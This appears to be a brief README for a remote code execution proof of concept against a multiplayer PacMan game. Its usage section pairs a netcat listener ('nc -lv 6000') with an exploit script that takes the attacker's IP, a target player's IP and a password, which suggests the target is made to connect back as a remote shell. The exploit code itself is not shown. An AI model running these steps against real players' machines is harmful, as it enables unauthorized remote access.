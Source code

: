 # rcepm

RCE exploit PoC for [multi-player PacMan]().


## Usage

```sh
$ nc -lv 6000

$ rce.py [your ip] [player ip] [password]'
```
